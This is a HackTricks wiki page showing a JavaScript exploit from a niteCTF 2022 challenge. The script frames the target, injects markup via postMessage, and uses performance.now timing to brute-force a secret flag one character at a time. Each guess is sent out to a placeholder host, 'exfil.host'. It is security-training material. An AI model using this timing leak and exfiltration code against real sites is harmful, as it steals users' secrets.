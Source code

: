 # performance.now example

{{#include ../../banners/hacktricks-training.md}}

**Example taken from [https://ctf.zeyu2001.com/2022/nitectf-2022/js-api](https://ctf.zeyu2001.com/2022/nitectf-2022/js-api)**

```javascript
const sleep = (ms) => new Promise((res) => setTimeout(res, ms))

async function check(flag) {
  let w = frame.contentWindow
  w.postMessage(
    { op: "preview", payload: '<img name="enable_experimental_features">' },
    "*"
  )
  await sleep(1)
  w.postMessage({ op: "search", payload: flag }, "*")
  let t1 = performance.now()
  await sleep(1)
  return performance.now() - t1 > 200
}

async function main() {
  let alpha =
    "abcdefghijklmnopqrstuvwxyz0123456789_ABCDEFGHIJKLMNOPQRSTUVWXYZ-}"
  window.frame = document.createElement("iframe")
  frame.width = "100%"
  frame.height = "700px"
  frame.src = "https://challenge.jsapi.tech/"
  document.body.appendChild(frame)
  await sleep(1000)

  let flag = "nite{"
  while (1) {
    for (let c of alpha) {
      let result = await Promise.race([
        check(flag + c),
        new Promise((res) =>
          setTimeout(() => {
            res(true)
          }, 300)
        ),
      ])
      console.log(flag + c, result)
      if (result) {
        flag += c
        break
      }
    }
    new Image().src = "//exfil.host/log?" + encodeURIComponent(flag)
  }
}

document.addEventListener("DOMContentLoaded", main)
```

{{#include ../../banners/hacktricks-training.md}}

